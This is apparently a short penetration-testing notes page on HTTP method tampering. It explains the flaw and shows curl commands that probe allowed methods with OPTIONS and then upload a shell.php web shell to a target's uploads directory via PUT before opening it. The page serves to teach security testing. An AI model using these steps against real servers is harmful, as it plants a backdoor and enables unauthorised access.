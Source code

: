 # 6.1.1 HTTP Method Tampering

## HTTP Method Tampering

HTTP Method Tampering is a type of security vulnerability that can be exploited in web apps, that occurs when an attacker manipulates the HTTP request method used to  interact with a web server.

HTTP Request typically use methods like GET, POST, PUT, DELETE, OPTIONS, etc to perform specific actions on a web application.

### Examples of HTTP Method Tampering

Various situation and examples can be:

* Changing a GET request to a DELETE request: if the application doesn't properly validate the method used, it might inadvertently delete data when we try to retrieving it.
* Changing a POST request to a GET: it could expose sensitive data that should only be accessible via a POST request.

We can do it using Burp Repeater or Curl utility as below:

See allow method information -> `curl -v <Target_URL>`

And specify request options using -X (default is GET) -> `curl -v -X OPTIONS <Target_URL>`

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Good new, more methods are allowed, then we can upload everything

`curl <Target_URL>/uploads/ --upload-file shell.php`

and open shell.php file uploaded into \<Target\_URL>/uploads/
